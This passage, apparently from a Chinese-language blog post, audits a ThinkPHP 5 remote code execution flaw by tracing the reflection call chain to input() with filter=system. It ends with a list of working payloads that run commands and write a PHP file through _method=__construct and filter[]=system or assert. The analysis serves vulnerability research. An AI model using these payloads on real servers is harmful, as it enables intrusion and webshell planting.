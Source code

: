 相当于实例化think\Request：  
  
1. $action这里先获得input这个方法名，  
  
1. 然后判断是否可以调用，创造\$call。  
  
1. 生成了一个ReflectionMethod反射类的对象，得到方法名。  
  
1. 利用param方法获得请求参数，即：filter=system&data=whoami  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/xkA3iaCzeYprXWI4L266ViakwlRpnHhOaZhlMkNTVksJ9anarWlMCszszX0s0s3KiaVWlowLpIjt1X2Gz55CyS3Xw/640?wx_fmt=jpeg "")  
  
之后有个135行invokeReflectMethod()  
```
```  
```
$data = $this->app->invokeReflectMethod($instance, $reflect, $vars);
```  
  
跟进，又发现bindParams()会retrun $args;再传给invokeArgs()调用  
  
  
invokeArgs()利用反射机制，把\$args这个数组作为参数，调用了input方法，到input就很熟悉下边就不分析了  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/xkA3iaCzeYprXWI4L266ViakwlRpnHhOaZusuibeIfa3EhwFHjbq0GdXf3iaoW8OWLKfr4X2TCHYB9hEBWLO5xtNaQ/640?wx_fmt=jpeg "")  
  
到这RCE部分就结束了，其实对于最后的未强制路由上，审计的还是不是很明白，也不知道是不是源码的问题，就是感觉有点乱这里就以后再说吧  
#   
  
# payload总结  
  
  
  
tp5RCE的payload其实还有很多，这里贴一波师傅总结payload  
##   
## 5.0-5.0.12debug无关  
  
开启debug后会执行两遍我们的命令，一次在debug模式判断那里，run()->param():126，另一个就是非debug模式下的exec()  
  
  
**命令执行**  
```
```  
```
POST 
s=whoami&_method=__construct&method=POST&filter[]=system
aaaa=whoami&_method=__construct&method=GET&filter[]=system
_method=__construct&method=GET&filter[]=system&get[]=whoami
c=system&f=calc&_method=filter//自5.0.8开始
```  
```
```  
```
```  
```
POST
s=file_put_contents('test.php','<?php phpinfo();')&_method=__construct&method=POST&filter[]=assert
```  
  
